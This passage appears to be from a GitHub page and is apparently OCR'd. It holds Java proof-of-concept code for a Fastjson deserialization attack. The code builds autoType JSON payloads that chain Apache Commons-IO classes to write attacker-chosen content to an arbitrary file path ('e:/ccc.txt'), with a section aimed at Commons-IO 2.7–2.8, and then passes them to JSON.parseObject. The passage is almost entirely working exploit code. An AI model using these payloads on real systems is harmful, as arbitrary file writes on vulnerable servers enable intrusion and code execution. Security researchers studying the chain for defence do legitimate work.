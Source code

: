 ```java
        "      \"lenient\":false,\n" +
        "      \"defaultEncoding\":\"UTF-8\"\n" +
        "    },\n" +
        "    \"trigger3\":{\n" +
        "      \"@type\":\"java.lang.AutoCloseable\",\n" +
        "      \"@type\":\"org.apache.commons.io.input.XmlStreamReader\",\n" +
        "      \"is\":{\n" +
        "        \"@type\":\"org.apache.commons.io.input.TeeInputStream\",\n" +
        "        \"input\":{\n" +
        "          \"$ref\":\"$.input\"\n" +
        "        },\n" +
        "        \"branch\":{\n" +
        "          \"$ref\":\"$.branch\"\n" +
        "        },\n" +
        "        \"closeBranch\": true\n" +
        "      },\n" +
        "      \"httpContentType\":\"text/xml\",\n" +
        "      \"lenient\":false,\n" +
        "      \"defaultEncoding\":\"UTF-8\"\n" +
        "    }\n" +
        "  }\n" +
        "}";
System.out.println(poc4);
JSON.parseObject(poc4);
```
### Commons-IO 2.7 - 2.8
```java
//commons-io 2.7 - 2.8
String code5 = "FLAG{THIS_IS_A_flAT_THAT_You_REALLY_waNT!!!}";
int length5 = code5.length();
for (int i = 0; i <= 8192 - length5 ; i++) {
    code5 += " ";
}
String poc5 = "\n" +
        "{\n" +
        "  \"x\":{\n" +
        "    \"@type\":\"com.alibaba.fastjson.JSONObject\",\n" +
        "    \"input\":{\n" +
        "      \"@type\":\"java.lang.AutoCloseable\",\n" +
        "      \"@type\":\"org.apache.commons.io.input.ReaderInputStream\",\n" +
        "      \"reader\":{\n" +
        "        \"@type\":\"org.apache.commons.io.input.CharSequenceReader\",\n" +
        "        \"charSequence\":{\"@type\":\"java.lang.String\"\""+ code5 +"\",\n" +
        "        \"start\":0,\n" +
        "        \"end\":2147483647\n" +
        "      },\n" +
        "      \"charsetName\":\"UTF-8\",\n" +
        "      \"bufferSize\":1024\n" +
        "    },\n" +
        "    \"branch\":{\n" +
        "      \"@type\":\"java.lang.AutoCloseable\",\n" +
        "      \"@type\":\"org.apache.commons.io.output.WriterOutputStream\",\n" +
        "      \"writer\":{\n" +
        "        \"@type\":\"org.apache.commons.io.output.FileWriterWithEncoding\",\n" +
        "        \"file\":\"e:/ccc.txt\",\n" + //更改文件写入路径
        "        \"charsetName\":\"UTF-8\",\n" +
        "        \"append\": false\n" +
        "      },\n" +
        "      \"charsetName\":\"UTF-8\",\n" +
        "      \"bufferSize\": 1024,\n" +
        "      \"writeImmediately\": true\n" +
        "    },\n" +
```